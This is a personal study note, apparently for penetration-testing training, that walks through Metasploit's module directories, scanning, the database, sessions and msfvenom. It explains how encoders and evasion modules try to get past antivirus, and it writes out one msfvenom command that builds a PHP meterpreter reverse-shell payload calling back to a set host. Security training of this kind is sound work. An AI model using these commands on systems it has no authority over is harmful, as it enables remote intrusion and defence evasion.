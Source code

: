 
- For me the metasploit-framework directory lives here:
	- `/usr/share/metasploit-framework/modules/auxiliary`
- You can find where your msf directory is by:
	- `which msfconsole` 
	- Cat the `msfconsole` file and that will show you were the metasploit-framework directory lives in your system
	
- Auxiliary
	- Any supporting module, such as scanners, crawlers and fuzzers can be found in this directory
		- `tree -L 1 /usr/share/metasploit-framework/module`

- Encoders
	- Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them
	-  Security utilities like anti-virus solutions have a database of known threats. 
	- They tend to detect threats by comparing any suspect files to that database and will alert if there is a match 
	- Sometimes they'll do additional checks, so encoders have limited success depending on the security utility solution that the focused-machine(s) may be running
	- Encoders are located in the encoders directory
		- `tree -L 1 /usr/share/metasploit-framework/encoders`

- Evasion
	- These modules will do as the directory name suggests - to try and evade said security utilities that a focused-machine may have
	- These modules live here:
		- `tree -L 2 /usr/share/metasploit-framework/evasion`

- Exploits
	- `tree -L 1 /usr/share/metasploit-framework/exploits`

- NOPs (No OPeration)
	- Do nothing, lol
	- Normally used as buffers to achieve consistent payload sizes 
	- `tree -L 1 /usr/share/metasploit-framework/modules/nops`

- Payloads
	- Codes that will run on the focused-machine
	- Exploits will leverage a vulnerability, however, it will be the payload(s) that achieve whatever the adversary is wanting to do
	- Adapters
		- Wraps single payloads to convert them into various formats
		- ie wrapping a payload in a PowerShell adapter which will run a single PowerShell command which will also execute the payload
	- Singles
		- Self-contained payloads that don't have the need to download any additional components to run on 
		- ie launching ntoepad.exe, calc.exe, adding a user to the system
	- Stagers
		- Setting up a connection between Metasploit and the focused-machine
		- Useful for working with staged payloads
		- The staged payload is first uploaded on to the target system and then the rest of the payload is downloaded 
		- The initial size of the payload will be small when compared to the full payload being sent at once
	- Stages
		- Downloaded by the stager, allows the use of larger payloads
	- Identifying payload types:
		- `/shell_payload`
			- In-line, unstaged payload
		- `/shell/payload`
			- Staged payload 
		- Notice the differences above, the in-line variant has an underscore between shell and the payload name
		- The staged payload sits in its own directory called shell
	- `tree -L 1 /usr/share/metasploit-framework/modules/payloads`
	
- Post
	- Used in the final stage of the test
	- `tree -L 1 /usr/share/metasploit-framework/modules/post`

- Scanning
- Database Feature
- Vuln Scan
- Exploit Vulns
- `msfvenom`

- Scanning
	- use auxiliary/scanner/ (and whatever you find in here)
	- search
	- always use info to find out more about how the module works
	- options as well 
		- smb/smb_version || smb_enumusers || smb_enumshares
		- 
	- You can also run nmap when not within a module in msf
	- You can also do a udp scan
		- `use auxiliary/scanner/discovery/udp_sweep`
			- pretty neat

- Database Feature
	- Useful for when considering multiple devices so as to keep project management simplified and avoid possible confusion when setting parameters
	- Requires the use of `postgresql`
		- `systemctl start postgresql`
			- Make sure that the service has started and is running
		- `msfdb init`
			- Initialise the Metasploit Database
		- `db_status`
			- Check the status of the DB when inside the MSF Console
	- Workspaces
		- Workspaces can be created to isolate different projects
		- `help workspace`
			- works
			- Will list you the various options that you can use when wanting to work with workspace(s)
	- `db_nmap`
		- Report and findings will be saved to the database/workspace that is currently being worked in 
	- `hosts`
		- will list hosts that have been picked up and stored in the database
		- `-h` for more options
		- Once host information has been stored in the DB, you can use hosts -R to add variables to the RHOST parameter
	- `services`
		- Will list the services respective to each host running them that have been picked up 
		- `-h` for more options
		- `-S` will allow you to search the DB for services in the environment (that have been scanned and added to the DB)

- Vulnerability Scanners

- Exploits
	- Run `show payloads` when within an exploit module to show compatible payloads that can go with it
	- Take note that payloads may have additional requirements/parameters that may need to be set so also don't forget to run the `options` (or `show options`) command to see what may be needed
	- Backgrounding jobs
		- Works in MSF as well
		- `ctrl+z` to background a job
	- Sessions
		- `sessions` 
			- Will list all active sessions

- MSFVENOM
- `msfvenom`
	- `msvenom --list formats`
		- Will list supported output formats
			- ie Python
	- Encoders
		- Using modern obfuscation techniques or learning methods to inject shellcode is a better solution for a Red Team Operatives problem
		- But some encoding can help
		- Example:
			- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.123.123.123 -f raw -e php/`
			- `-p` is the parameter for payload
			- `-f` is for format, the output format, in this case it will be raw
			- `-e` is the encoder
	- Using `exploit/multi/handler`
		- To receive returned (reversed) shells
	- 